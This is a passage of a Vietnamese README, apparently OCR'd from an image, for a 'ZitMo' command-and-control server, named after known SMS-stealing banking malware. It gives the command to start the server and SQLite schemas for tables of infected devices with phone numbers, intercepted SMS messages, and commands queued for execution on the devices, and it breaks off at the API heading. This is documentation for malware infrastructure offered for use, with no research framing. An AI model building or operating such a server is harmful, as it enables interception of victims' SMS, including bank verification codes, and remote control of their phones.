 ### Khởi động server
```bash
python zitmo_c2_server.py
```

Server sẽ chạy tại: http://localhost:5000

## Cấu trúc database

Server sử dụng SQLite với 3 bảng chính:

### 1. Bảng `devices`
```sql
CREATE TABLE devices (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    device_id TEXT UNIQUE,
    device_info TEXT,
    phone_number TEXT,
    operator TEXT,
    first_seen TIMESTAMP,
    last_seen TIMESTAMP
)
```

### 2. Bảng `intercepted_sms`
```sql
CREATE TABLE intercepted_sms (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    device_id TEXT,
    sender TEXT,
    message TEXT,
    timestamp TIMESTAMP,
    processed INTEGER DEFAULT 0,
    FOREIGN KEY (device_id) REFERENCES devices (device_id)
)
```

### 3. Bảng `commands`
```sql
CREATE TABLE commands (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    device_id TEXT,
    command_type TEXT,
    command_data TEXT,
    timestamp TIMESTAMP,
    executed INTEGER DEFAULT 0,
    result TEXT,
    FOREIGN KEY (device_id) REFERENCES devices (device_id)
)
```

## API Endpoints
